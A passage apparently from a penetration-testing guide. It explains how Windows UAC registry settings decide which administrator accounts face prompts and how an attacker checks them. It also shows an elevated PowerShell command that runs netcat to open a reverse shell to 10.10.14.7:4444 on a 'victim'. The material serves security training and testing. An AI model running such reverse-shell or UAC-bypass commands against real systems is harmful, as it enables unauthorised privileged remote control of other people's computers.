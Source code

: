 Then, you have to take a look at the value of **`LocalAccountTokenFilterPolicy`**\
If the value is **`0`**, then, only the **RID 500** user (**built-in Administrator**) is able to perform **admin tasks without UAC**, and if its `1`, **all accounts inside "Administrators"** group can do them.

And, finally take a look at the value of the key **`FilterAdministratorToken`**\
If **`0`**(default), the **built-in Administrator account can** do remote administration tasks and if **`1`** the built-in account Administrator **cannot** do remote administration tasks, unless `LocalAccountTokenFilterPolicy` is set to `1`.

#### Summary

- If `EnableLUA=0` or **doesn't exist**, **no UAC for anyone**
- If `EnableLua=1` and **`LocalAccountTokenFilterPolicy=1` , No UAC for anyone**
- If `EnableLua=1` and **`LocalAccountTokenFilterPolicy=0` and `FilterAdministratorToken=0`, No UAC for RID 500 (Built-in Administrator)**
- If `EnableLua=1` and **`LocalAccountTokenFilterPolicy=0` and `FilterAdministratorToken=1`, UAC for everyone**

All this information can be gathered using the **metasploit** module: `post/windows/gather/win_privs`

You can also check the groups of your user and get the integrity level:

```
net user %username%
whoami /groups | findstr Level
```

## UAC bypass

> [!NOTE]
> Note that if you have graphical access to the victim, UAC bypass is straight forward as you can simply click on "Yes" when the UAC prompt appears

The UAC bypass is needed in the following situation: **the UAC is activated, your process is running in a medium integrity context, and your user belongs to the administrators group**.

It is important to mention that it is **much harder to bypass the UAC if it is in the highest security level (Always) than if it is in any of the other levels (Default).**

### UAC disabled

If UAC is already disabled (`ConsentPromptBehaviorAdmin` is **`0`**) you can **execute a reverse shell with admin privileges** (high integrity level) using something like:

```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```

#### UAC bypass with token duplication

- [https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/](https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/)
- [https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html](https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html)
